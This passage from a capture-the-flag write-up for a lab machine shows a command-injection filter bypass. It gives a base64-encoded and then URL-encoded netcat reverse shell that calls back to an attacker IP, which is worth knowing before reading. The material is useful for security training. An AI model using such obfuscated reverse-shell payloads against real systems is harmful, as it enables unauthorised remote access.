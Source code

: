 It has an array of blacklisted strings that blocking us from using: `;`, `&&`, `/`, `bin`, `&`, ` &&`, `ls`, `nc`, `dir`, `pwd`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a19.png)

Since the target machine also has `base64` installed, why not base64 **encode** our reverse shell, and then base64 **decode** it in the target machine? I also notice the **pipe** (`|`) can also bypass the filter, as it's not in the blacklist.

1. Base64 encode the `nc` reverse shell: (From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a20.png)

**Complete payload:**
```bash
|echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTkyLjE2OC40OS4xMjkgNDQzID4vdG1wL2YK" | base64 -d | bash
```

2. URL encode our payload: (https://www.urlencoder.org/)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a21.png)

**Final payload:**
```bash
%7Cecho%20%22cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgMTkyLjE2OC40OS4xMjkgNDQzID4vdG1wL2YK%22%20%7C%20base64%20-d%20%7C%20bash
```

3. Setup a `nc` listener and send the payload via `curl`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a22.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a23.png)

We're now `www-data`!

**local.txt:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a28.png)

**Upgrade to Fully Interactive Shell via `socat`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a24.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a25.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Proving-Grounds-Play/NoName/images/a26.png)

# Privilege Escalation

> **There are 2 ways to escalate to root:**
